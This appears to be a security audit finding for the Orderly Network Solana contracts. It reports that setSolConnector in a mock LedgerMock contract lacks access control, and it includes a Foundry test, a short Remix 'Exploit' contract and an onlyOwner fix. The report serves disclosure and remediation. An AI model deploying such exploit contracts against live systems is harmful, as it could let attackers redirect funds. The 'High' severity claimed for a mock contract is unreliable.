 Alert Tan Aardvark

High

# Lack of Access Control in setSolConnector Function in LedgerMock Contract

### Summary

The `LedgerMock` contract allows external users to update the `SolConnector` address through the `setSolConnector` function. This function lacks access control, enabling any user to replace the `SolConnector` with a malicious contract, potentially compromising the entire system, including unauthorized withdrawals or fund redirection.

### Root Cause

The `setSolConnector` function does not implement access control mechanisms to restrict who can update the `SolConnector` address. There are no checks (such as `onlyOwner` or `onlyAuthorized`) to ensure that only authorized addresses can perform this operation.

https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/sol-cc/contracts/mocks/LedgerMock.sol#L24C1-L26C6

### Internal pre-conditions

1.The `LedgerMock` contract must be deployed with an initial `SolConnector` address.
2.No access control mechanism exists in the contract.

### External pre-conditions

1.An attacker must have knowledge of the `setSolConnector` function in the deployed `LedgerMock` contract.
2.The attacker must have access to an external address from which to call the `setSolConnector` function.

### Attack Path

1.The attacker identifies the deployed `LedgerMock` contract and the absence of access control on the `setSolConnector` function.

2.The attacker calls the `setSolConnector` function with a malicious contract address under their control.

3.The `LedgerMock` contract updates the `solConnecto`r to the attacker-controlled address.

4.The attacker can now exploit the `solConnector` for unauthorized actions such as withdrawing funds or manipulating sensitive operations.


### Impact

1.**Unauthorized Control**: Any external user can take control of the `SolConnector` by setting it to a malicious contract.

2.**Loss of Funds**: If the `SolConnector` contract handles funds, the attacker can potentially withdraw or redirect them to unauthorized addresses.

3.**System Compromise**: Changing the `SolConnector` to an untrusted contract could compromise core system functionality, leading to a breakdown in operations.


### PoC

Here is a PoC demonstrating how an external attacker can exploit this vulnerability:
**For Foundry:**
```solidity
function testUnauthorizedSetSolConnector() public {
    // Deploy LedgerMock with a dummy SolConnector address
    LedgerMock ledger = new LedgerMock(address(0x123));

    // An attacker calls setSolConnector from an unauthorized account
    ledger.setSolConnector(address(0x456));  // Malicious contract address

    // Assert that the solConnector has been updated to the attacker's address
    assertEq(ledger.solConnector(), address(0x456));
}
```
**Using Remix IDE :**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.22;

interface ILedgerMock {
    function setSolConnector(address _solConnector) external;
}

contract Exploit {
    ILedgerMock public target;

    constructor (address _LedgerMock) {
        target = ILedgerMock(_LedgerMock);
    }

    function attack() public{
        target.setSolConnector(address(this));
    }
}
```
1.Deploy the `LedgerMock` contract.

2.Call the `setSolConnector` function using any external account, passing a new (possibly malicious) contract address.

3.Observe that the` solConnector` is updated without any restriction.

### Mitigation

To fix this issue, implement proper access control mechanisms to restrict access to the `setSolConnector` function. Only authorized addresses (such as the contract owner) should be able to update the `SolConnector`.

Recommended solution using Ownable:
```solidity
contract LedgerMock is ILedger, Ownable {
    // Other code...

    function setSolConnector(address _solConnector) external onlyOwner {
        solConnector = SolConnector(payable(_solConnector));
    }
}
```
Additionally, emit events to log changes to the `solConnector` for better traceability:
```solidity
event SolConnectorUpdated(address indexed newSolConnector);

function setSolConnector(address _solConnector) external onlyOwner {
    solConnector = SolConnector(payable(_solConnector));
    emit SolConnectorUpdated(_solConnector);
}
```
These changes will prevent unauthorized updates to the `SolConnector` and improve overall security.